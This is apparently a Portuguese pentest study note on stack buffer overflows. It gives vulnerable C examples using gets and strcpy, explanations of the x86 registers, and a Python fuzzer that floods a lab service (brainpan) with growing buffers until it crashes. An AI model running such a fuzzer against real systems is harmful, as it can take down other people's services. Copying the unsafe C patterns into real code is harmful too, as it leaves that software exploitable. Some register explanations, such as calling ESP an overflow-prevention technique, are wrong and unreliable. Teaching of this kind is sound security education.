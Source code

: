 ```yaml
---
tags:
  - pentest
  - engenharia_reversa
links: https://xpsec.academy/home/course/buffer-overflow-para-pentesters/3
---
```

O **Buffer Overflow** é uma vunerabilidade que ocorre quando escrevemos informações em endereços de memória do buffer na qual não deveriamos.
# Exemplo básico de execução

```c
#include <stdio.h>
#include <strings.h>

int main() {
        char password[10]="NOTHING";
        char checkpass[10];

        printf("Digite a senha correta:");
        gets(checkpass);

        if(strcmp(checkpass,password)==0) {
                printf("\nSenha valida!\n");
        }
        else{
                printf("\nSenha errada!!\n");
        }
        return 0;
}
```

# Registradores Assembly

- **EIP - Extended Instruction Pointer**  - É usado no processador Intel para ==armazenar o endereço da *próxima instrução* a ser executada no programa==.

O registrador EIP é ==*atualizado* automaticamente a cada execução de uma instrução==, para que apontando para a próxima instrução no fluxo do programa.

Por exemplo, suponha que temos o seguinte código em Assembly:

```assembly
MOV AX, 5
MOV BX, 3
ADD AX, BX
```


Ao executar a primeira instrução (MOV AX, 5), o endereço da próxima instrução a ser executada (MOV BX, 3) é armazenado no registrador EIP. Quando a segunda instrução (MOV BX, 3) é executada, o endereço da próxima instrução (ADD AX, BX) é armazenado no registrador EIP, e assim por diante.

- **ESP** - Extended Stack Pointer - É uma técnica utilizada para evitar problemas de pilha (buffer overflow). Em vez de utilizar apenas um registro para o ponteiro da pilha, o ESP utiliza um par de registros: EBP (Extended Base Pointer) e ESP.

EBP é usado como o ponteiro base para a pilha e, ao mesmo tempo, armazena o endereço do registro EBP antes de seu valor ser modificado. Assim, o registro EBP sempre aponta para o endereço onde o ponteiro base foi armazenado anteriormente.

- **JMP** - JUMP - Permite realizar saltos condicionais e incondicionais. Essa instrução é importante porque permite que você controle o fluxo de execução do programa, fazendo com que ele siga um caminho específico, dependendo das condições especificadas.

```assembly
section .data
 value1 db 10
 value2 db 20

section .text
 global _start

_start:
 ; Comparar value1 e value2
 mov al, [value1]
 cmp al, [value2]

 ; Saltar para label1 se value1 for menor que value2
 jl label1

 ; Se value1 não for menor que value2, fazer o que está aqui
 ; ...

 ; Fim do programa
 mov eax, 1
 int 0x80

label1:
 ; Se value1 for menor que value2, fazer o que está aqui
 ; ...

 ; Fim do programa
 mov eax, 1
 int 0x80
```

# Entendendo o Fluxo

```c
#include <stdio.h>
#include <strings.h>

void func(char *str) {
    char buffer[5]; //Função se inicia com o 
    strcpy(buffer, str)

}

void main(int argc, char *argv[]) {
    func(argv[1]);
    printf("%s\n","Executou normalmente");
}
```

A função `func` copia a string fornecida pelo usuário para um buffer de tamanho **5**. Se a string fornecida pelo usuário tiver mais de 5 caracteres, a função `strcpy` irá copiar todos os caracteres, resultando no estouro de buffer.

# Fuzzing

Na máquina alvo, vamos analizar o fluxo por meio de algumas ferramentas: 
- **Immunity Debugger**
- **brainpan**
- **Windows 7 Utimate**

![[Pasted image 20231125015151.png]]

Agora, vamos escrever o código que fará o bufferoverflow na aplicação vulnerável. Para esse teste, será o seguinte código em python:

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "192.168.0.108"
port = 9999
timeout = 10
prefix = ""

string = prefix + "A" * 200

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

Neste exemplo, o script tenta conectar a um servidor (definido pelo IP e porta) e enviar uma string para o servidor. A string começa com o *prefixo* (que neste caso está vazio) e depois é **seguida por 200 "A"s**.

A string é então enviada ao servidor e o script aguarda uma resposta do servidor. Se a **resposta for recebida com sucesso, a string é atualizada adicionando mais 100 "A"s e o processo é repetido** até crashar a aplicação, causando o bufferoverflow! 